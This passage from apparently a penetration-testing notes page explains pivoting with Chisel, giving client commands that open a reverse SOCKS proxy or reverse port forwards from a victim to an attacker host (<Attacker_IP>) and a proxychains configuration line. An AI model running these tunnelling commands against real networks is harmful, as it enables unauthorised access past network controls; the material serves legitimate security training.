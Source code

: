 ```bash
./chisel client <kali_nat1>:33 R:socks
```

Solution 2

Bringing only one port which would be like this:

```bash
./chisel client <Attacker_IP>:2000 R:80:<Victim_IP>:80
```

Solution 3

```
./chisel client --fingerprint <finger_of_chisel_server> <Attacker_IP>:<Listening_Attacker_Port> R:8000:<Victim_IP>:80
```

* IP = The IP address of your Chisel server
* PORT = The port you set on your Chisel sever
* R:socks = enables the reverse SOCKS proxy

<figure><img src="../../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

The connection will have been opened on the local port of our machine through 1080.

{% hint style="info" %}
Rename terminal tabs is a best practies to facilitate understanding!
{% endhint %}

<div align="left"><figure><img src="../../../../.gitbook/assets/image (44).png" alt=""><figcaption><p>Rename tabs with a significant name</p></figcaption></figure></div>

### Setting Proxychains

First, check that you have [proxychains↗](https://github.com/haad/proxychains) installed. It comes preinstalled in Kali Linux or Parrot. With root privileges edit the file `/etc/proxychains4.conf`. At the bottom, you should add the following line:

```bash
echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf #it adds IP and port in listening mode on chisel attacker machine
```

<div align="left"><figure><img src="../../../../.gitbook/assets/image (46).png" alt=""><figcaption><p>/etc/proxychains4.conf</p></figcaption></figure></div>

